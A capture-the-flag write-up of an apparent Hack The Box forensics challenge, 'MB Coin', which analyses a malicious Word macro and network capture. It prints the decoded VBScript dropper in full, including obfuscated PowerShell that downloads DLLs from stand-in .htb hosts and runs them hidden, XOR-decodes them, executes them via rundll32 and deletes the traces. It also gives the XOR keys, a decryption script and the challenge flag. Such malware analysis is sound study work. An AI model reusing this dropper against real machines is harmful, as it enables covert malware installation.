










# MB Coin

## Scenario

We have been actively monitoring the most extensive spear-phishing campaign in recent history for the last two months. This campaign abuses the current crypto market crash to target disappointed crypto owners. A company's SOC team detected and provided us with a malicious email and some network traffic assessed to be associated with a user opening the document. Analyze the supplied files and figure out what happened.

## Given artifacts

A packet capture file, and a word document.

## Solving process

The pcapng file shows some suspicious traffic to `.htb` domains, to understand what is happening we should inspect the document first, I run `olevba` to it and this macro spills out:



It use two objects, likely images from the document to hold the payloads inside their alternative text, concatenates them to a file named `bin.vbs` inside C:\ProgramData folder. Note that chr(48) maps to 0, meaning the vbs is running in a hidden window. After 5 seconds, it prints a decoy message, this is a social engineering trick, users will just think they clicked on a broken file while the malware is executing stealthly.

Let's see what is inside those Alt Text, open in Word and right-click the images, I can see the obfuscated payload:



We can see the  payload as follow:

```vbs
Dim WAITPLZ, WS, k, kl
WAITPLZ = DateAdd(Chr(115), 4, Now())
Do Until (Now() > WAITPLZ)
Loop

LL1 = "$Nano='JOOEX'.replace('JOO','I');sal OY $Nano;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://priyacareers.htb/u9hDQN9Yy7g/pt.html'',''C:\ProgramData\www1.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL2 = "$Nanoz='JOOEX'.replace('JOO','I');sal OY $Nanoz;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''https://perfectdemos.htb/Gv1iNAuMKZ/jv.html'',''C:\ProgramData\www2.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL3 = "$Nanox='JOOEX'.replace('JOO','I');sal OY $Nanox;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://bussiness-z.htb/ze8pCNTIkrIS/wp.html'',''C:\ProgramData\www3.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL4 = "$Nanoc='JOOEX'.replace('JOO','I');sal OY $Nanoc;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://cablingpoint.htb/ByH5NDoE3kQA/vm.html'',''C:\ProgramData\www4.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL5 = "$Nanoc='JOOEX'.replace('JOO','I');sal OY $Nanoc;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''https://bonus.corporatebusinessmachines.htb/1Y0qVNce/tz.html'',''C:\ProgramData\www5.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"


HH9="po"
HH8="wers"
HH7="h"
HH6="ell "
HH0= HH9+HH8+HH7+HH6
Set Ran = CreateObject("wscript.shell")
Ran.Run HH0+LL1,Chr(48)
Ran.Run HH0+LL2,Chr(48)
Ran.Run HH0+LL3,Chr(48)
Ran.Run HH0+LL4,Chr(48)
Ran.Run HH0+LL5,Chr(48)
Wscript.Sleep(5000)

```

It just uses replace trick, the commands are executed in hidden mode. I recover the original commands by printing them directly:





These commands explain the weird domains seen in the pcapng file

Do the same thing to get the second payload:

```vbs

MM1 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww1.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'gl'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'KO'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'X'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM2 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww2.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'pc'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Au'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'P'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]};  if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM3 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww3.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'WG'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'OL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'s'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM4 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww4.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'oN'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Py'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'G'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM5 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww5.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'IE'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'YL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'a'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"

Set Ran = CreateObject("wscript.shell")
Ran.Run HH0+MM1,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM2,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM3,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM4,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM5,Chr(48)

WScript.Sleep(15000)
OK1 = "cmd /c rundll32.exe C:\ProgramData\www.dll,ldr"
OK2 = "cmd /c del C:\programdata\www*"
OK3 = "cmd /c del C:\programdata\pin*"
Ran.Run OK1, Chr(48)
WScript.Sleep(1000)
Run.Run OK2, Chr(48)
Run.Run OK3, Chr(48)
```

It loads the downloaded file, xor with a key, and execute them LOLBin, I recover the 5 keys here:

MM1 Key: `6iIgloMk5iRYAw7ZTWed0CrjuZ9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm1XpjmYfaQXacA6`

MM2 Key: `6iIpcoMk5iRYAw7ZTWed0CrjuZ9wijyQDjAu9Ms0D8K0Z2H5MX6wyOKqFxlOm1PpjmYfaQXacA6`

MM3 Key: `6iIWGoMk5iRYAw7ZTWed0CrjuZ9wijyQDjOL9Ms0D8K0Z2H5MX6wyOKqFxlOm1spjmYfaQXacA6`

MM4 Key: `6iIoNoMk5iRYAw7ZTWed0CrjuZ9wijyQDjPy9Ms0D8K0Z2H5MX6wyOKqFxlOm1GpjmYfaQXacA6`

MM5 Key: `6iIIEoMk5iRYAw7ZTWed0CrjuZ9wijyQDjYL9Ms0D8K0Z2H5MX6wyOKqFxlOm1apjmYfaQXacA6`

Now we are ready to return to pcap file, those are files downloaded from stage 1, let's export all of them and map their names to the name defined in macro:





I see only 3 file downloaded here, anyway let's export all of them, `pt` maps to `www1.dll`, `vm` maps to `www4.dll`, and `wp` to `www3.dll`. However, the wp/www3.dll should be corrupted as the HTTP request fails:



Let's construct a script to recover the malicious `.dll` files:

```python
import os

def xor_decrypt(input_filename, key_string, output_filename):
    if not os.path.exists(input_filename):
        print(f"[-] File not found: {input_filename}")
        return

    with open(input_filename, 'rb') as f:
        encrypted_data = f.read()

    key_bytes = key_string.encode('utf-8')
    key_length = len(key_bytes)
    
    decrypted_data = bytearray(len(encrypted_data))
    for i in range(len(encrypted_data)):
        decrypted_data[i] = encrypted_data[i] ^ key_bytes[i % key_length]
        
    with open(output_filename, 'wb') as f:
        f.write(decrypted_data)
        
    print(f"[+] Decrypted: {input_filename:<10} -> {output_filename}")

payloads = [
    {
        "file": "pt.html",     # From LL1
        "out": "www1.dll",     # From MM1
        "key": "6iIgloMk5iRYAw7ZTWed0CrjuZ9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm1XpjmYfaQXacA6"
    },
    {
        "file": "wp.html",     # From LL3
        "out": "www3.dll",     # From MM3
        "key": "6iIWGoMk5iRYAw7ZTWed0CrjuZ9wijyQDjOL9Ms0D8K0Z2H5MX6wyOKqFxlOm1spjmYfaQXacA6"
    },
    {
        "file": "vm.html",     # From LL4
        "out": "www4.dll",     # From MM4
        "key": "6iIoNoMk5iRYAw7ZTWed0CrjuZ9wijyQDjPy9Ms0D8K0Z2H5MX6wyOKqFxlOm1GpjmYfaQXacA6"
    }
]

print("--- Starting Decryption Routine ---")
for p in payloads:
    xor_decrypt(p["file"], p["key"], p["out"])
```

Running the script, and we see www3 is corrupted as expected:



Note when the file is decrypted, they are all saved to `www.dll`, so what is the real payload ? The early bird did not catch the worm in this case, www1.dll is overwritten by www4.dll, so when I decompile www1.dll and find the ldr function, I get this message:



Decompiling www4.dll yields the flag immediately, no need for further analyzing the binary:



`Flag: "HTB{wH4tS_4_sQuirReLw4fFl3?}"`